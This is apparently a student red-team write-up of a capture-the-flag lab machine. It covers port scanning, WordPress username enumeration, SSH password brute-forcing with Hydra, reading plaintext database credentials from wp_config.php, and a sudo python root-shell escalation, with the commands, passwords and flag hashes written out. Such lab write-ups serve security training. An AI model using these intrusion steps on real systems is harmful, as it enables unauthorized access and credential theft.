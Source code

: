 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![nmapscan](./Images/nmap%20scan.JPG)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
    - running wpscan was able to enumerate usernames for the target system.
- ![wpscan](./Images/wpscan2.JPG)

  - SSH with password.
    - Users are able to SSH with a password instead of requiring an SSH key.
    - User michael had a weak password(Brute forced with HYDRA)
- ![hydrascan](./Images/Michael%20hydra%20crack%20password.JPG)

  - Database credentials for wordpress are written in plain text.
    - Database credentials were stored in /var/www/html/
    - This allowed me to access the mysql database and extract confidential information such as password hashes.
- [sqlcredentials](./Images/MySQLpassword.JPG)

  - python can be run with sudo privilages.
    - The user steven has the ability to run python with sudo.
    - Running python with sudo can execute arbitrary code on the system to get a shell with root access.

  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - The version of Samba running on this server allows an attacker to execute malicious code remotely.

  - [CVE-2017-3167](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3167)
    - The version of Apache running on this server allows an attacker to bypass authentication by use of third party module.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var`
      - `grep -rnw ./ -e flag1 2>/dev/null`
- ![flag1](./Images/flag1.JPG)

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in `/var/www`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var/www`
      - `cat flag2.txt`
- ![flag2](./Images/flag2.JPG)

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cat /var/www/html/wp_config.php`
      - `mysql -u root -p` (password R@v3nSecurity)
      - `USE wordpress;`
      - `USE wp_posts;`
      - `SELECT * FROM wp_posts;`
- ![flag3](./Images/flag3.JPG)

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
    - Commands run:
      - `ssh steven@192.168.1.110 (password pink84)`
      - `python -c 'import os; os.system("/bin/sh")'`
      - `cat /root/flag4.txt`
- ![flag4](./Images/flag4.JPG)
